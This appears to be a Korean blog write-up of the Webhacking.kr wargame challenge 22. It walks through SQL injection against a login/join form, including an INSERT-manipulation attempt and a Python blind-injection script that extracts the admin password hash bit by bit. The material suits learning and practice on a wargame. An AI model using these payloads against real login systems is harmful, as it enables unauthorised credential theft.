 ```yaml
---
layout: post
title: Webhacking.kr - chall22 풀이
comments:true
categories : [Web]
tags: [Web]
---
```



# 문제

- id, pw를 입력할 수 있고
- login, join 버튼이 존재한다.
- login시
  - 성공시 id와 md5 해쉬된 패스워드 값이 출력된다.
  - 실패시 Login Fail이 출력된다
- join시
  - id, pw를 가입할 수 있다.



# 풀이

- 블라인드 인젝션으로 하면 쉽게 풀수있을 것 같았지만

  - `join`기능을 만든 이유가 있을거라고 생각했다.

- `join`으로 우회해서 admin으로 로그인할 방법을 찾아보았다.

  - mysql에서 뒤에 공백을 추가해서 id를 만들어도 조회시에 똑같은 조건으로 검색된다.
    - `admin공~~~~~~백` 으로 가입해보려고 했지만 `no admin`이 출력되었다.
    - 문자열로 입력했기 때문이라고 생각해서
      - insert 쿼리 조작으로 `aaa', 'aaa'),(0xadmin공~~백의 헥스값, 1234)#` 이렇게 뒤에다가 insert 값을 추가해서 헥스로 넣어보려고 했지만 id가 길다고 나온다.
        - php에서 검사하는것 같다.
  - 방법을 못찾겠다.. 블라인드 인젝션으로 풀자

- 코딩

  ```python
  while True:
      words = ''
      for idx in range(7): 
          payload = 'admin\'&&substr(lpad(conv(hex(substr(pw,{0},1)),16,2),7,0),{1},1)=1#'
          payload = payload.format(len(flags)+1, idx+1)
          params= {'uuid': payload, 'pw':'guest'}
          print params
  
          res = requests.post(url+page, data=params, cookies= cookies)
          if res.text.find('Fail') != -1:
              words += '0'
          else:
              words += '1'
  
  
      ch = int(words,2)
      if ch == '\00':
          break
      else:
          ch = chr(ch)
          print 'founded...'
          print 'words: ' + ch
          flags += ch
          print 'flags: ' + flags
          
  
  print 'founded successfully...'
  print 'flag is here!: ' + flags
  
  ```

  

# 알게된 것

### insert 시 뒤에 공백 삽입으로 우회 in sql

- `'admin'`, `'admin공~~~~~백'`을 삽입한 후
  - `select * from where id='admin'`을 조회하면 두가지 값 모두 반환한다.



### 숫자는 문자열숫자값과 같다 in sql

- 예를들어
  - `select '5'=5`를 하면 1이 반환된다.
  - `select '6'=5`를 하면 0이 반환된다.
- 놀랍구나..
